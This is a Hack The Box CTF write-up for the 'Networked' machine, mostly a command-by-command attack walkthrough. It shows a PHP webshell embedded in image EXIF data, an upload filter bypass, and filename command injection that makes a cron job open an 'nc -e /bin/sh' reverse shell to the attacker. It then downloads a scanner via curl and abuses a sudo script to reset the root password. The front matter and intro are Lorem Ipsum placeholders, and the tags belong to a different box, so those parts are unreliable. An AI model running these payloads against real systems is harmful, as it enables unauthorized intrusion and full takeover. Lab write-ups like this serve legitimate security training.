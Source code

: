 ```yaml
---
layout: single
title: Networked - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-10-20
classes: wide
header:
  teaser: /assets/images/htb-writeup-networked/networked_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-networked/networked_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. nmap -Pn -sC -sV -O 10.10.10.146
   Open ports: 22, 80, 443

2. dirb http://10.10.10.146
   Detects /backup/ download .tar and extract the .php-files

3. Upload a file http://10.10.10.146/upload.php
   Upload.php shows;
   - the uploaded file will change name (ip_address.png ex. 10_10_14_28.png)
   - must be .jpg, .jpeg, .png or .gif
   - size must be smaller than 60000 byte
   - successful upload will be moved to /var/www/html/uploads/ (http://10.10.10.146/uploads/10_10_14_28.png)

   Lib.php shows:
   - mime type will be double checked to pervent mime-switching through burp

   Create a webshell using exiftoool:
   exiftool -DocumentName="<h1>Player Three Has Entered The Game<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" image.png
   Rename the file to .php.png to force php execution: mv image.png webshell.php.png

4. Enum box through webshell
   http://10.10.10.146/uploads/10_10_14_15.php.png?cmd=whoami   (apache)
   http://10.10.10.146/uploads/10_10_14_15.php.png?cmd=ls%20-al%20/home/guly/

   total 28
   drwxr-xr-x. 2 guly guly 159 Jul  9 13:40 .
   drwxr-xr-x. 3 root root  18 Jul  2 13:27 ..
   lrwxrwxrwx. 1 root root   9 Jul  2 13:35 .bash_history -> /dev/null
   -rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
   -rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
   -rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
   -rw-------  1 guly guly 639 Jul  9 13:40 .viminfo
   -r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
   -rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
   -r--------. 1 guly guly  33 Oct 30  2018 user.txt

   We don't have priv to read user.txt yet, need to escalate.

5. Exploiting check_attack.php
   check_attack.php has a cronjob that will remove new files from /var/www/html/uploads, using the syntax "rm -f /var/www/html/uploads/".
   Exploit this by creating reverse bash shell starting the name with ;
   (touch /var/www/html/uploads/";nc -e /bin/sh 10.10.14.15 4488")
   http://10.10.10.146/uploads/10_10_14_15.php.png?cmd=touch%20/var/www/html/uploads/%22;nc%20-e%20/bin/sh%2010.10.14.15%204488%22

6. Start netcat and wait for the cronjob to trigger your reverse shell
   root@p3:/opt/htb/machines/networked# nc -lnvp 4488
   listening on [any] 4488 ...
   connect to [10.10.14.15] from (UNKNOWN) [10.10.10.146] 36284

   ls
   check_attack.php
   crontab.guly
   user.txt

   whoami
   guly

   cat user.txt
   526****************

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Upgrade rev shell (tty0) to a better one for ease of use and better information.
    python -c 'import pty;pty.spawn("/bin/bash")'
    ctrl + z
    stty raw -echo
    fg
    <ENTER>
    <ENTER>
    export TERM=xterm

2. Download lse.sh to the victim and scan for vulns. wget is unable so we use curl instead
    root@p3:/opt/scanners/linux# python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

    [guly@networked shm]$ curl http://10.10.14.15:8080/lse.sh --output lse.sh
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100 31737  100 31737    0     0   292k      0 --:--:-- --:--:-- --:--:--  295k
    [guly@networked shm]$ ls -al
    total 32
    drwxrwxrwt  2 root root    60 Sep 20 14:54 .
    drwxr-xr-x 20 root root  3200 Sep 19 21:01 ..
    -rw-rw-r--  1 guly guly 31737 Sep 20 14:54 lse.sh

3. Give +x and scan the system
    chmod +x lse.sh
    ./lse.sh -l1

4. The script changename.sh is executable by gully and has root privs.
    User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh

5. Looking in the script, we can see that it only accepts input according to the regexp:
    regexp="^[a-zA-Z0-9_\ /-]+$"

      Looking at the regexp we are only allowed to input a-z, 0-9, "-" and " ".
      Use https://regex101.com/ to test acceptable inputs

6. Run the script and change the root password.
    [guly@networked sbin]$ sudo ./changename.sh
    interface NAME:
    sudo passwd
    interface PROXY_METHOD:
    asd
    interface BROWSER_ONLY:
    asd
    interface BOOTPROTO:
    asd
    Changing password for user root.
    New password:
    Retype new password:
    passwd: all authentication tokens updated successfully.
    Changing password for user root.

    [guly@networked sbin]$ su
    Password:

    [root@networked sbin]# whoami
    root

    [root@networked sbin]# cat /root/root.txt
    0a8*****************************
